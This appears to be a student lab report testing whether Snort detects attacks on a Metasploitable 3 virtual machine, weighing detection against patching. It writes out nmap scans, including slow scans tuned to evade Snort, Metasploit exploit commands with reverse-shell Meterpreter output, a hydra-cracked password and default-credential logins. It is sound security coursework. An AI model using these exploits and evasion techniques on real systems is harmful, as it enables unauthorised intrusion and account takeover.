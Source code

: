 # Is it easier to fix the application than to detect attacks?

## Background
I carried out attacks following the 7-step approach [1], focusing particularly
on scanning (step 2), access and escalation (step 3). I configured and ran
metasploitable 3 in a VM on a Linux Mint host (IP address `192.168.1.6`),
following instructions on the course project website [2], and installed Snort 3
with rules configured from third-party instructions [3, 4]. Snort was run with
the command

`snort -A console -i1 -c c:\Snort\etc\snort.conf -l c:\Snort\log -K ascii`

## Results
Attacks were carried out using Kali Linux 18.1 in a separate VM (IP address
  `192.168.1.200`). `nmap` was used
for the scanning (attacks one and two), and the default Kali install of
`metasploit` was used for access and escalation (attacks three to five).

Attacks one, three, and four were detected by Snort. Attacks two and five were
not detected. The question of whether it is easier to fix the application or
detect attacks is addressed in the conclusion.

### Attack 1: nmap intense scan (Detected)

The first attack was an intense port scan with `nmap -T4 -p 1-65535 -A -v 192.168.1.6`.
This successfully discovered information about potentially-vulnerable services
on the Windows host (note this list is not exhaustive):

    Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-02 12:54 GMT
    Nmap scan report for 192.168.1.6

    PORT      STATE SERVICE  VERSION
    22/tcp    open  ssh      OpenSSH 7.1 (protocol 2.0)
    3000/tcp  open  http     WEBrick httpd 1.3.1 (Ruby 2.3.3 (2016-11-21))
    4848/tcp  open  ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
    8022/tcp  open  http     Apache Tomcat/Coyote JSP engine 1.1
    8080/tcp  open  http        Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
    8282/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
    8383/tcp  open  ssl/http Apache httpd
    8484/tcp  open  http     Jetty winstone-2.8     
    8585/tcp  open  http     Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
    9200/tcp  open  http     Elasticsearch REST API 1.1.1 (name: Tarot; Lucene 4.7)
    49153/tcp open  msrpc    Microsoft Windows RPC
    49154/tcp open  msrpc    Microsoft Windows RPC

    Aggressive OS guesses: Microsoft Windows Server 2008 or 2008 Beta 3 (91%)

However, the scan was detected by Snort, with numerous `Priority 2` alerts
logged, e.g. several  

    Consecutive TCP small segments exceeding threshold [Classification: Potentially Bad Traffic] 192.168.1.200 -> 192.168.1.6

(here, `192.168.1.200` is the Kali linux VM) and several dozen

    Reset outside window [Classification: Potentially Bad Traffic] 192.168.1.200

and

    TCP session without 3-way handshake [Classification: Potentially Bad Traffic]

As a result, the intense port scan was clearly identified by Snort, and the
large number of alerts would be detected as malicious activity.

### Attack 2: nmap stealth scanning (Not Detected)

The Snort detection in the previous attack could be successfully avoided using
more careful tuning of nmap options. For example, a scan of 100 ports using
`nmap -T2 -F 192.168.1.6` completed in 150 seconds and identified services on
port 22 (ssh), and 8080 (http) without detection. `nmap -T2 -A 192.168.1.6`
took 1214 seconds to complete, and retrieved a full set of results; however, it
triggered a few Snort alerts when scanning port 8383, and might have been
detected. Even slower scanning with `-T1` specified triggered no alerts, but
took a very long time to complete.

Therefore, it appears straightforward to carry out reconnaissance and scanning
without triggering Snort if the attacker is patient, limits the scanning rate,
and carefully selects ports to be scanned.  

### Attack 3: access via Elasticsearch CVE-2014-3120 (Detected)

Running `nmap --script nmap-vulners,vulscan --script-args vulscandb=scipvuldb.csv -sV 192.168.1.6` identified numerous potential vulnerabilities. My first exploit
was against Elasticsearch, using metasploit  

    use multi/elasticsearch/script_mvel_rce
    set RHOST 192.168.1.6

this was then run with the exploit command

    msf exploit(multi/elasticsearch/script_mvel_rce) > exploit

    Started reverse TCP handler on 192.168.1.200:4444
    Trying to execute arbitrary Java...
    Discovering remote OS...
    Remote OS is 'Windows Server 2008 R2'
    Discovering TEMP path
    TEMP path identified: 'C:\Windows\TEMP\'
    Sending stage (53837 bytes) to 192.168.1.6
    Meterpreter session 2 opened (192.168.1.200:4444 -> 192.168.1.6:50615) at 2018-03-11 11:32:50 +0000

A shell could then be opened on the remote system

    meterpreter > shell
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files\elasticsearch-1.1.1>

However, this exploit led to a large number of alerts in the Snort logs
originating at port 50615 (used by Meterpreter) on the Kali host, and so would
have been easily detected. The attack also left `.tmp` and `.jar` files in
`C:\Windows\Temp` directory, which would provide evidence of compromise in the
case of later forensic analysis.

### Attack 4: Default password in Apache Axis2 (Detected)

The deployed Apache Tomcat server includes CVE-2010-0219, a default password
of `axis2` for the `admin` account. This can be exploited to create a shell
with metasploit

    use exploit/multi/http/axis2_deployer
    set RHOST 192.168.1.6

then

    msf exploit(multi/http/axis2_deployer) > exploit
    Started reverse TCP handler on 192.168.1.200:4444
    http://192.168.1.6:8282/axis2/axis2-admin [Apache-Coyote/1.1] [Axis2 Web Admin Module] successful login 'admin' : 'axis2'
    Successfully uploaded
    Polling to see if the service is ready
    Sending stage (53837 bytes) to 192.168.1.6
    Meterpreter session 2 opened (192.168.1.200:4444 -> 192.168.1.6:50810) at 2018-03-11 11:48:32 +0000
    Deleted webapps/axis2/WEB-INF/services/oaPWWciG.jar

a shell could again be opened on the remote systems

    meterpreter > shell
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files\Apache Software Foundation\tomcat\apache-tomcat-8.0.33>

Again, the exploit was detected by Snort, which showed a few log entries
originating on port 50810 (used by Meterpreter) on the Kali host. However, there
were far fewer entries than in attack 3, and it is possible that these might
have been overlooked on a busy system.

### Attack 5: Default password on Wordpress wp-admin (Not Detected)

I ran a few more successful metasploit attacks, but all were detected by Snort,
so for the final attack, I assumed that attack 4 (which was the 'quietest') was
not immediately detected. I opened a remote shell and ran `net users`, which
returned

    User accounts for \\METASPLOITABLE3
    ---------------------------------------------------------------------------
    Administrator     anakin_skywalker    artoo_detoo
    ben_kenobi        boba_fett           c_three_pio
    chewbacca         darth_vader         greedo
    Guest             han_solo            jabba_hutt
    jarjar_binks      kylo_ren            lando_calrissian
    sshd_server       vagrant

I was able to brute-force `c_three_pio` with `hydra` and Kali's `rockyou.txt`
wordlist

    sshpass -p pr0t0c0l ssh c_three_pio@192.168.1.6
    Last login: Sun Mar 11 16:45:46 2018 from 192.168.1.200
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files\OpenSSH\home\c_three_pio>

but this would have been easily detected due to a large number of failed logins.
However, I wrote a python script to look for passwords that were the same as
the username, and managed to log in to

    http://192.168.1.6:8585/wordpress/wp-admin/

with the pair `vagrant:vagrant`. This was not detected by Snort, presumably
as it appears to be a routine login to `wp-admin`, but a wordpress administrator
might have noticed failed logins from other users. However, this was the
closest that I was able to get to an system compromise without any detection
from Snort.  

## Conclusion

While it was relatively easy to carry out scanning without detection, Snort
seemed to do a good job of detecting exploits launched from metasploit: I opened
remote shells through half a dozen different exploits, and all were detected to
some extent, so I had to 'cheat' a little and assume my username enumeration
went undetected in order to achieve an 'undetected' compromise.

However, it was very easy to compromise the system via weak passwords and
unpatched vulnerabilities in software, and while Snort detected many of these
attempts, the attack would have succeeded before an administrator could respond.
Therefore, the answer to the question is 'both'! While detecting attacks is
important, it is also essential to fix the applications to reduce the attack
surface of the system. 

### References

    [1] http://resources.infosecinstitute.com/the-seven-steps-of-a-successful-cyber-attack/
    [2] https://cybersecuritybase.github.io/project2/
    [3] https://ttcshelbyville.wordpress.com/2014/03/30/defending-your-network-with-snort-for-windows/
    [4] https://www.securityarchitecture.com/learning/intrusion-detection-systems-learning-with-snort/configuring-snort/#step1
